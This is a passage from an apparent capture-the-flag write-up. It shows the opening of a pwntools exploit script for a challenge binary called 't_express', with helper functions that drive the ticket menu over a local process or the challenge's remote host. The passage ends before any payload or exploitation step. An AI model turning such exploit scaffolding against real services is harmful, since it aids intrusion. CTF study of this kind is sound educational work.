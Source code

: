 
## Exploit

```python
# exploit_t_express.py

from pwn import *
# context.log_level = 'debug'

r = process("./t_express")
# r = remote("t-express.sstf.site", 1337)

def buy(choice, firstname, lastname):
    r.recvuntil("choice: ")
    r.sendline("1")

    r.recvuntil("(1/2): ")
    r.sendline(str(choice))

    r.recvuntil("First name: ")
    r.send(firstname)

    r.recvuntil("Last name: ")
    r.send(lastname)

def view(index):
    r.recvuntil("choice: ")
    r.sendline("2")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

def use_oneride(index):
    r.recvuntil("choice: ")
    r.sendline("3")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

def use_oneday(index, choice):
    r.recvuntil("choice: ")
    r.sendline("3")

    r.recvuntil("Index of ticket: ")
    r.sendline(str(index))

    r.recvuntil("(1/2/3/4): ")
    r.sendline(str(choice))
```

<br>
